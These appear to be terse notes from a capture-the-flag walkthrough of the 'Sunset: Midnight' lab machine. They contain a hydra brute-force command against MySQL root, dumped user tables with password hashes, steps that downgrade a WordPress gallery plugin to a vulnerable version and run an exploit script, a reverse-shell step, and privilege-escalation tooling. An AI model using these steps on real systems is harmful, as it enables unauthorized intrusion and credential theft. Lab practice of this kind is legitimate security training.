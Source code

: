 -  **hydra \-l root \-P /usr/share/wordlists/rockyou\.txt  sunset\-midnight mysql \-I**
-  db mysql -  user

| localhost | root | \*A14C02465C2ED43BDB89ACC6C7213C1D00617758 | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | Y          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      | Y                   |          |            |             |              |             0 |           0 |               0 |                    0 |        |                       | N                | N       |              |           0\.000000 |
| localhost | jose | \*3AA64DAE22DBC5B7ACC28062EB18EFB7046D808C | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | N          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      | Y                   |          |            |             |              |             0 |           0 |               0 |                    0 |        |                       | N                | N       |              |           0\.000000 |


-  db wordpress\_db  -  wp\_users

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+
| ID | user\_login | user\_pass                          | user\_nicename | user\_email          | user\_url               | user\_registered     | user\_activation\_key | user\_status | display\_name |
\+\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+
|  1 | admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ | admin         | example@example\.com | [http://sunset-midnight](#http://sunset-midnight)
| 2020\-07\-16 19:10:47 |                     |           0 | admin        |
\+\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+

-  WP Rollback plugin install
-  Reflex gallery install
-  reflex gallery rollback to 3\.1\.3
-  run exploit

python3 exploit\.py \-u URL

$ help
$ rev ip port

-  $shell 
-  \./linpeas\.sh

-  su jose



